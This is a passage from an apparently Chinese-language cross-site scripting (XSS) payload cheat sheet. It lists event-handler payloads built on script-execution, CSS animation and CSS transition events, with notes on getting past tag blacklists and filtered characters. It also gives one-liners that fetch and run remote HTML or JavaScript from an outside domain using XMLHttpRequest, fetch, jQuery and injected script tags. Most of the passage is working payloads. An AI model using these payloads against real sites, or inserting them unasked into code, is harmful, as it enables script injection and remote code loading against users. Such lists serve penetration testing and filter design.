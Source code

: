 ```javascript
<!--><svg onload=alert(1)-->
```



## 不依赖框架的payload - 基于原生脚本

**这些payload可以与任意标签名称一起使用，有助于绕过黑名单。它们需要在源代码的注入点之后加载一些脚本。请注意，在某些场景中使用现有标签（如`<b>`）可能是触发这些事件的唯一方法**

```javascript
<x onafterscriptexecute=alert(1)>
<x onbeforescriptexecute=alert(1)>
```



## 不依赖框架的事件处理器 - 基于CSS3

**这些payload可以与任意标签名称一起使用，有助于绕过黑名单限制。它们需要通过`<style>`标签或使用`<link>`导入样式表加载`CSS`。最后四个payload仅在Firefox浏览器生效   **

```javascript
<x onanimationend=alert(1)><style>x{animation:s}@keyframes s{}
<x onanimationstart=alert(1)><style>x{animation:s}@keyframes s{}
<x onwebkitanimationend=alert(1)><style>x{animation:s}@keyframes s{}
<x onwebkitanimationstart=alert(1)><style>x{animation:s}@keyframes s{}

Firefox
<x ontransitionend=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitionrun=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitionstart=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitioncancel=alert(1)><style>*{transition:color 1s}*:hover{color:red}
```



## 远程脚本调用

**当你需要调用外部脚本，但XSS payload是基于事件时，例如（Svg onload=>）或JavaScript注入时使用。`brutelogic.com.br`域名以及`HTML`和JS文件被用作示例。如果`>`被某种方法过滤，可以使用`function()`代替`r=>`或`w=>`  **

- x 基于 HTML 的远程脚本调用（响应必须是 HTML，并且包含 Access-Control-Allow-Origin（CORS）响应头）

```
"var x=new XMLHttpRequest();x.open('GET','//brutelogic.com.br/0.php');x.send();
x.onreadystatechange=function(){if(this.readyState==4){write(x.responseText)}}"

fetch('//brutelogic.com.br/0.php').then(r=>{r.text().then(w=>{write(w)})})

(with fully loaded JQuery library)
$.get('//brutelogic.com.br/0.php',r=>{write(r)})
```

- 基于`JavaScript`的远程脚本调用（响应必须是JavaScript）

```
with(document)body.appendChild(createElement('script')).src='//brutelogic.com.br/2.js'

（在已完全加载 jQuery 库的情况下）
$.getScript('//brutelogic.com.br/2.js')
```

